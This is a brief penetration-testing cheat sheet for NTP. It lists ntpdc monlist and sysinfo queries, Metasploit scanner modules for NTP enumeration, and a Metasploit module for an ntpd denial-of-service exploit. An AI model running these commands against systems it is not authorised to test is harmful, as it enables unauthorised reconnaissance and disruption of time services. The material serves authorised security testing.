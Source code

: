 # NTP

### ntpcd

##### list the last 600 IPs that have queried the server
```bash
ntpdc -c monlist [IP]
```

##### NTP server system information
```bash
ntpdc -c sysinfo [IP]
```

### Metasploit

##### ntp_monlist
```bash
use auxiliary/scanner/ntp/ntp_monlist
set RHOSTS [IP]
set RPORT 123
run
```

##### ntp_readvar
```bash
use auxiliary/scanner/ntp/ntp_readvar
set RHOSTS [IP]
set RPORT 123
run
```

##### ntp_request
```bash
use auxiliary/scanner/ntp/ntp_request
set RHOSTS [IP]
set RPORT 123
run
```


---
---


## Exploitation

### Metasploit

##### ntpd_reserved_dos
```bash
use exploit/linux/ntp/ntpd_reserved_dos
set RHOSTS [IP]
set RPORT 123
run
```
